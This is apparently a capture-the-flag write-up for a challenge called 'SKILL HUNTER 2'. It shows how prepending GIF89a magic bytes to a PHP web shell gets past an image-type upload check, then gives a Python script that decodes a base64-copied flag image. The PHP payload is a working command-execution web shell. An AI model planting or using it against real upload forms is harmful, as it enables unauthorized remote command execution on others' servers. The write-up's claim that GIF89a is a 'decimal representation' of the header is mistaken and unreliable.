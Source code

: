 # SKILL HUNTER 2

## Write-up
all you need is to add bytes of an img header to your php payload generated for skill hunter 1 
and you will get the rce and bypass the exifimagetype
the second part is how to read and see the content of an img
the first idea that came to my mind is to encrypt the bytes using base64 and then regenerate the img in my local device 
but there is a better idea is to copy the img to the static directory and then open it from the url
## Exploit
one of the header i used is gif. `GIF89a` is the decimal representation of the header's byte. which means just by adding `GIF89a`in the start of your payload you will bypass the exifImagetype check
here the full payload
```php
GIF89a<?php echo system($_GET['command']); ?>
```
2. we go to the root directory then we find `see_FLAG.png` using the base64 command to copy the bytes of the img then we decrypte it and regenerate it localy using this script for example:
```python
import base64

# Read the base64 string from the file
with open("file.txt", "r") as file:
    base64_data = file.read()

# Decode the base64 string
decoded_data = base64.b64decode(base64_data)

# Save the decoded data to a JPG file
with open("decoded_image.jpg", "wb") as f:
    f.write(decoded_data)

print("Image successfully decoded and saved as 'decoded_image.jpg'.")
```
open the image and you will get the flag
